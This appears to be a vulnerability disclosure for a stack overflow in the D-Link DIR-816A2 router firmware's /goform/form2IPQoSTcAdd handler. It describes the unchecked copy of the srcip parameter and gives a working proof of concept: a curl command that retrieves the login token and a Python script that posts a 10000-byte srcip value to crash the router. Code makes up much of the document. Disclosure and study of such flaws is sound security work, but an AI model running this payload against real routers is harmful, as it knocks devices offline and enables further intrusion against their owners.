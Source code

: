 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/form2IPQoSTcAdd.   The content obtained by srcip parameter is passed to V14, and then the content matched by V14 is formatted into the V12 stack without size checking, resulting in a stack overflow.

![](img/2.png#center)

## POC

Gets the token ID

```
curl http://ip/dir_login.asp | grep tokenid
```

Run poc

```python
import requests

tokenid = 'xxx'

url = 'http://10.211.55.20/goform/form2IPQoSTcAdd'

payload = b'a' * 10000

data = {
    'tokenid': tokenid,
    'srcip': payload,
}

r = requests.post(url, data)
hunzi = r.text
print(hunzi)
```

You can see the router crash
